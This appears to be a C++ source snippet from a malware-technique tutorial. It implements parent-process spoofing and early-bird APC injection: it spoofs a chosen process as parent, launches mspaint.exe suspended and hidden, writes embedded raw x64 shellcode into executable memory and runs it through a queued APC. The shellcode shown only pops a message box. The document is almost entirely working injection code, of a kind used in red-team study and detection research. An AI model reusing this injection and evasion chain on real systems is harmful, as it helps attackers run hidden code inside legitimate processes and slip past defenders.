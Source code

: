 ```cpp
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  STARTUPINFOEXA si;
  PROCESS_INFORMATION pi;
  SIZE_T st;
  int pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

  ZeroMemory(&si, sizeof(STARTUPINFOEXA));
  InitializeProcThreadAttributeList(NULL, 1, 0, &st);
  si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

  CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
  LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  SIZE_T *nb = 0;
  BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);

  QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
  ResumeThread(pi.hThread);
  CloseHandle(pi.hThread);

  return 0;
}
```
